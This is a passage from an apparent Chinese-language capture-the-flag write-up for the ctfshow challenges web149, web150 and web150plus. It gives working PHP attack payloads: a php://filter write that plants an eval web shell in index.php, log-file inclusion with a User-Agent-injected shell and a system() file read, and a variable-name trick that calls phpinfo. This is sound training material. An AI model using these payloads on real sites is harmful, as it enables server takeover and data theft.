异或没被绕过



或者也可以直接 RCE

### web149

开启容器

代码审计



这里写入文件只能用 index.php

但是可以写入文件，且也只是当前目录下保留 index.php。  
那么就直接用伪协议把木马写入到 index.php 就可以了。

**get**：`?ctf=php://filter/write=convert.base64-decode/resource=index.php`  
**post**：`show=PD9waHAgQGV2YWwoJF9QT1NUWydqeiddKTs/Pg==`

`show=<?php @eval($_POST['cmd']);?>`


成功写入木马


### web150

开启容器

代码审计


post 的`ctf`只是限制了不能有冒号，别的并没有被过滤`include($ctf)`，可以进行日志包含。

因为`$key`有过滤字符，所以我们可以通过`User-Agent`传递木马信息。

然后通过 extract 变量覆盖，满足 isVip 是 true 的条件限制。

**get**：`?isVIP=true`  
**post**：`ctf=/var/log/nginx/access.log&1=system('tac f*');`


在 user-agent 注入木马


### web150plus

开启容器

代码审计

**解答**：php 中变量名的点和空格会被转换成下划线。

**payload**：`?..CTFSHOW..=phpinfo`

直接看


